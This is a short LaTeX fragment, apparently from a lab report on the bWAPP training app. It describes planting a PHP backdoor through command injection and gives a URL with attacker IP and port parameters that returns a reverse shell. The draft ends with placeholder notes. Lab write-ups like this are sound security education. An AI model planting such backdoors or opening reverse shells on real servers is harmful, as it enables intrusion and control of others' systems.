 \documentclass{article}
\begin{document}
We piped the command \ref{bash:backdoor} into the file inserted\_backdoor.php and now when we acces the url "http://10.0.2.4/bWAPP/inserted\_backdoor.php?server=10.0.2.15 \&port=4747",
the server will give us a reverse shell. \ref{fig:backdoor-installed}

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/command-injection/backdoor-installed.png}
    \caption{\label{fig:backdoor-installed}How to connect to the server after the backdoor has installed}
\end{figure}
\label{}

\textcolor{blue}{-- commands provided to extract data}

\textcolor{blue}{-- screenshots}
\end{document}
